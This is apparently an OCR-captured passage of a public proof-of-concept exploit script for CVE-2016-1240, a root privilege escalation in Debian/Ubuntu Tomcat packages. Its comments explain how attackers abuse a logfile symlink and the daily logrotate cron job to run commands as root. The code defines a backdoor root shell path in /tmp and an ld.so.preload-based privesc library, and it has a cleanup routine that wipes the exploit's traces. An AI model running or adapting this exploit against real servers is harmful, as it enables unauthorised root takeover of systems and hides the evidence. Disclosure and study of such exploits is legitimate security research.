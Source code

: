     #
    # -deferred (requires the -deferred switch on argv[2]) - this mode symlinks the logfile to 
    # /etc/default/locale and exits. It removes the need for the exploit to run in a loop waiting. 
    # Attackers can come back at a later time and check on the /etc/default/locale file. Upon a 
    # Tomcat restart / server reboot, the file should be owned by tomcat user. The attackers can
    # then add arbitrary commands to the file which will be executed with root privileges by 
    # the /etc/cron.daily/tomcatN logrotation cronjob (run daily around 6:25am on default 
    # Ubuntu/Debian Tomcat installations).
    #
    # See full advisory for details at:
    # http://legalhackers.com/advisories/Tomcat-DebPkgs-Root-Privilege-Escalation-Exploit-CVE-2016-1240.html
    #
    # Disclaimer:
    # For testing purposes only. Do no harm.
    #

    BACKDOORSH="/bin/bash"
    BACKDOORPATH="/tmp/tomcatrootsh"
    PRIVESCLIB="/tmp/privesclib.so"
    PRIVESCSRC="/tmp/privesclib.c"
    SUIDBIN="/usr/bin/sudo"

    function cleanexit {
        # Cleanup 
        echo -e "\n[+] Cleaning up..."
        rm -f $PRIVESCSRC
        rm -f $PRIVESCLIB
        rm -f $TOMCATLOG
        touch $TOMCATLOG
        if [ -f /etc/ld.so.preload ]; then
            echo -n > /etc/ld.so.preload 2>/dev/null
        fi
        echo -e "\n[+] Job done. Exiting with code $1 \n"
        exit $1
    }
